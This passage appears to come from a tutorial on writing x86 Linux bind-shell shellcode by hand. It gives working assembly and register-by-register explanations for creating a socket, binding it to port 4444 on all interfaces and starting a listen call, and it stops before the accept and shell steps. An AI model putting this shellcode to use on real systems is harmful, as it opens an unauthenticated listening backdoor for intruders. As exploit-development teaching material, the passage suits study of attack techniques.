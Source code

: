```asm
; point ecx to the stack for args
mov ecx, esp
int 0x80
```
Return value will be sockfd stored in EAX.  Since EAX is used for our socketcall argument, we need to move it to a register for safe keeping which will be edi.
```asm
mov edi, eax
```
### 2 Bind the socket to an IP and port
Now that we have the sockfd, it's time to bind the socket.\
\
As we created earlier, our reference is:\
bind(sockfd, (struct sockaddr *)&sock_addr, sizeof(sock_addr));\
Just for my own understanding, I'll write out the socketcall format with any structs or objects in {}.\
socketcall( SYS_BIND, {sockfd, {AF_INET, 4444, INADDR_ANY}, 0x10} );\
EAX - 0x66\
EBX - 0x2\
ECX - pointing to stack:\
STACK: edi, point to struct, 0x10, struct{0x2, 0x115C, 0x00000000}\
\
Lets build this in assembly now:
```asm
mov al, 0x66
inc ebx      ; previously set to 0x1 -> increase it to 2

; push struct to stack
push edx       ; INADDR_ANY = 0x0
push 0x5C11    ; port: htons(4444) - 0x5C11
push bx        ; AF_INET = 2

;store reference to struct
mov ecx, esp

; push bind args
push 0x10      ; sizeof(sock_addr) = 0x10
push ecx       ; struct sock_addr
push edi       ; sockfd

mov ecx, esp
int 0x80
```
### 3 Set the socket to listen
Next step is to call listen(sockfd, 0);\
This will translate to:
EAX - 0x66\
EBX - 0x4\
ECX - pointing to stack:\
STACK: edi, 0x0\
\
Note that on success, bind returns 0x0 into eax which we can now use for our args on the stack as well as sockfd.
```asm
; stack setup
push eax
push edi

; *args
mov ecx, esp

; set up syscall and listen
mov al, 0x66
```